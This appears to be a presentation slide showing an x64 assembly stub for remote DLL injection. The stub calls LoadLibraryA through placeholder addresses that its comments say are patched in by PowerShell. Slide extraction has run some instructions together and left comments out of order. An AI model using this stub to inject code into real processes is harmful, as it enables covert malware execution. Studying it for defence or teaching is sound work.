

# Remote LoadLibrary (x64)
; Save rsp and setup stack for function call  push rbx
mov rbx, rsp  sub rsp, 0x20  and sp, 0xffc0
; Call LoadLibraryA
mov rcx, 0x4141414141414141  mov rdx, 0x4141414141414141
call rdx
; Ptr to string of library, set by PS
; Address of LoadLibrary, set by PS
mov rdx, 0x4141414141414141
mov [rdx], rax
; Ptr to save result, set by PS
; Fix stack  mov rsp, rbx  pop rbx
ret